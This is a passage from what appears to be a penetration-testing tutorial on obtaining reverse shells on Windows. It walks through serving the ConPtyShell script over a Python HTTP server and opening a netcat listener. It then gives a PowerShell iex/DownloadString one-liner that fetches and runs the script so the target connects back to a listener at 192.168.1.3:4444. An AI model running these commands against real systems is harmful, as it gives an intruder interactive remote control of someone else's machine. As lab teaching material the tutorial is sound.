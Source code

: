 <pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
wget https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1
</pre>

As we run the link, the script is downloaded, now we have to transfer this file through python sever.

python -m SimpleHTTPServer 80

python -m SimpleHTTPServer 80

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
python -m SimpleHTTPServer 80
</pre>

![](https://blogger.googleusercontent.com/img/a/AVvXsEjD075oOSj_hAoog_zhCL3b_GLm0WfJ1oWzR1Di81k8AajXCtlKU44J_3BXjJ-FXK_PsjCttjkfxPswW-Xmz-_obe8ThIg9IldNKm7E66w1lS8v6Z8RJVxytUKp-jnl6sw8RjUzku0P7UpC9MebyRA41I9Ev5JpXCzUByqBMa4wAp6S5da7PD7xt6cr2w=s16000)

Start a Netcat listener on port 4444 for obtaining a reverse connection.

stty raw -echo; (stty size; cat) | nc -lvnp 4444

stty raw -echo; (stty size; cat) | nc -lvnp 4444

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
stty raw -echo; (stty size; cat) | nc -lvnp 4444
</pre>

**![](https://blogger.googleusercontent.com/img/a/AVvXsEi1HO3kIIppYXy9ZbWN46RRPaDsVbxGkj3BTq1bv3jL3lXwZhi-n13L95MJ_rvdwfBaAPc9rTpmXrcMrYx8JKGBX-5j63bFHFWtVl9kSwvNb1e_mtjHRrSzuCf-OAGpXHteC8BhDnaQnzET_JQP6BP1blAfDxV_RJOqkCJWqLzXAIHjGJ5LWjREADe1xA=s16000)**

Users should enter the following command into the command prompt of the Windows machine. It will help in the execution of the ConPtyShell file.

Remember that the IP address should be your local IP address (Kali IP address).

powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.1.3/Invoke-ConPtyShell.ps1'); Invoke-ConPtyShell 192.168.1.3 4444

powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.1.3/Invoke-ConPtyShell.ps1'); Invoke-ConPtyShell 192.168.1.3 4444

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.1.3/Invoke-ConPtyShell.ps1'); Invoke-ConPtyShell 192.168.1.3 4444
</pre>

![](https://blogger.googleusercontent.com/img/a/AVvXsEjeK2s2JrgedoxFoZR9MPSZvUqIdohCg5CjIhASSsPluq4ZEz1r9Rn9sRyn4ItFON6HObBrMQ5R02rtQODJMgtM8y8DGehbvq8FurludqIKYffXY01yXaBE3q2LwP1nZc2huIU6EWCrHsWFQIiBFAocoF3mSw_ztDn46y2Rnhgmk7Qb9KLq6Bv6E1A1sA=s16000)

We can see that the pseudo function is created and we get a fully interactive shell once the command is used.

![](https://blogger.googleusercontent.com/img/a/AVvXsEh6UAPNanFeGZFnezOKcugh3A6EFd0k5tI4GzcPmWGFWJaYYv_qgFFpLpDuv_-NQSkNI28SD5Z9YDQyWGCIs8am-OPHYSiKlgp_uc-oRgxEWOs6wuIfJHiCDiizAF4A_rITckYBwI4gyVDQaZdpwMDR9ULjkzO1e8opnqFlVaukldOdlzzqp6JmQhSYHw=s16000)

### mini-reverse.ps1

Using the small mini-reverse script, we will obtain a reverse shell.

